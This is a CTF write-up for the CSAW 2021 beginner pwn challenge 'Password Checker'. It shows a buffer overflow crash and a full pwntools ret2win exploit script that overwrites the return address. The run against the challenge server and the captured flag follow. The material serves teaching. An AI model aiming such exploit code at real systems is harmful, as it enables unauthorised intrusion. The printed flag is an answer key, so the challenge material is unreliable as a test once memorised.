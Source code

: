```yaml
---
title: "Password Checker"
subtitle: "CSAW 2021 CTF"
author: GoProSlowYo
date: "2021-09-10"
subject: "Password Checker Writeup"
keywords: \[CSAW21, CSAW, CTF, InfoSec\]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
titlepage-rule-height: 0
logo: "./logo.png"
logo-width: 3in
toc: true
toc-own-page: true
---
```


# Password Checker

Writeup by: [GoProSlowYo](https://github.com/GoProSlowYo)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/password-checker/)

----

```text
Charlie forgot his password to login into his Office portal. Help him to find it. (This challenge was written for the person on your team who has never solved a binary exploitation challenge before! Welcome to pwning.)

nc pwn.chal.csaw.io 5000
```

## Initial Research

We figured this was a basic buffer overflow.

```bash
$ echo $(python -c 'print("A"*100)') | ./password_checker 
Enter the password to get in: 
>This is not the password[1]    45964 done                echo $(python -c 'print("A"*100)') | 
       45966 segmentation fault  ./password_checker
```

![A Buffer Overflow by Sending One-Hundred A's to the password_checker Binary](./overflow.png)

## Exploit

`$ pwn template > exploit.py`

```python
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
context.terminal = ['tmux', 'splitw', '-h']
exe = './password_checker'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwn.chal.csaw.io', 5000)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

buf = b''
buf += b'A' * (8 * 9)
buf += p64(0x401172)

io.sendlineafter('>', buf)

io.interactive()
```

## Victory

Run the exploit:

```shell
$ python3 exploit.py REMOTE
[+] Opening connection to pwn.chal.csaw.io on port 5000: Done
[*] Switching to interactive mode
This is not the password$ cat flag.txt
flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}
$
```

![Exploiting the Remote Service and Getting the Flag](./exploit.png)

Submit the flag and claim the points:

**flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}**
